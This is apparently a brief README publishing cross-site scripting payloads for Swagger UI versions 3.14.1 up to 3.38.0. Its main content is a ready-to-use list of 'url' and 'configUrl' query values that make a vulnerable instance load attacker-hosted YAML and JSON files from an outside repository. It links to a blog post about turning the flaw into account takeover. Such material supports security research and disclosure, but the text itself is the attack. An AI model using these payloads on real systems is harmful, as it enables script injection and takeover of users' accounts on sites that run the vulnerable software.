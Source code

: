 # Swagger UI >=3.14.1 < 3.38.0 XSS payload

- Swagger UI version affected: `>=3.14.1 < 3.38.0`

## Payloads

### `url`
`?url=https://raw.githubusercontent.com/TheMonada/swagger-ui-xss/main/xss-domain.yaml`
`?url=https://raw.githubusercontent.com/TheMonada/swagger-ui-xss/main/xss-fetch.yaml`
### `configUrl`

`?configUrl=https://raw.githubusercontent.com/TheMonada/swagger-ui-xss/main/config.json`

**More info at**: https://www.vidocsecurity.com/blog/hacking-swagger-ui-from-xss-to-account-takeovers/
